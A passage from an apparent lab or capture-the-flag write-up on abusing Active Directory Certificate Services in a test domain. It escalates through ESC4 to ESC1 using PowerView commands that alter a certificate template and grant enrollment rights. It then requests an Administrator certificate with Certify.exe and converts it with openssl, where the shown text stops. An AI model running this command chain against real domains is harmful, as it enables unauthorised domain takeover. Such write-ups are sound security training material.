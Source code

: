 Strangely, this user also had quota set to `0`. Let's try adding computer anyway, since the name implies that it can join computers (There's also another way to define quota which is via Domain Controllers GPO). And it works

![](15.png)

Now, we can abuse vulnerable template we saw earlier. But we need to impersonate the computer we created

![](16.png)

Since now we have write privileges over template, it is vulnerable to [ESC4](https://www.thehacker.recipes/ad/movement/adcs/access-controls#certificate-templates-esc4). By abusing the following privileges we can make the template vulnerable to [ESC1](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc1-template-allows-san)

In order to modify template, we need to import `Sharpview` (`register_assembly`)/`Powerview` (`powershell_import`). We don't need to:
- Disable Manager Approval Requirement
- Disable Authorized Signature Requirement
- Edit Certificate Application Policy Extension to add `Client Authentication`

The only setting we have to set are:
- Enable SAN Specification
  - `Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mythical-us,DC=vl" -Identity Machine -Set @{'mspki-certificate-name-flag'=1} -Verbose`

![](17.png)


Now we can request the certificate. We also have to add enrollment rights to `Domain Users` by running the following command
```
Add-DomainObjectAcl -TargetIdentity "Machine" -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=mythical-us,DC=vl" -Verbose
```

![](18.png)



Let's request the certificate
```
Certify.exe request /ca:dc01.mythical-us.vl\mythical-us-DC01-CA /template:Machine /altname:Administrator@mythical-us.vl
```

![](19.png)

Copy the content of the certificate and convert it to `pfx` (empty passwords)
```
└─$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:

```
